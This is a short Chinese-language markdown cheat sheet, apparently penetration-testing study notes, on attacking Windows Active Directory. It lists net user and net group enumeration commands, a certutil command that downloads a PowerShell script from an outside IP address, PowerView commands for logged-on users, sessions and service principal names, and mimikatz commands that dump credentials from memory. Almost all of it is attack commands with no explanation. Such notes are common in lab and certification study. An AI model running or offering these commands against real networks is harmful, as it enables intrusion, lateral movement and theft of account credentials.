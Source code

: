 # 枚举

## 传统方法

本地用户
```
net user
```

域用户
```
net user /domain
```

查看域用户详细信息
```
net user jeff_admin /domain
```

查看域中所有组
```
net group /domain
```

## 现代方法

certutil -urlcache -split -f "http://192.168.119.181/search.ps1" search.ps1

## powerview

枚举某台计算机登录的用户
```
Get-NetLoggedon -ComputerName client251
```

枚举某台计算机的登录session
```
Get-NetSession -ComputerName dc01
```
获取SPN

```
Get-NetUser -spn |select userprincipalname,serviceprincipalname
```

# 活动目录身份验证

## mimikatz

提升权限，导出哈希
```
privilege::debug
sekurlsa::logonpasswords
```
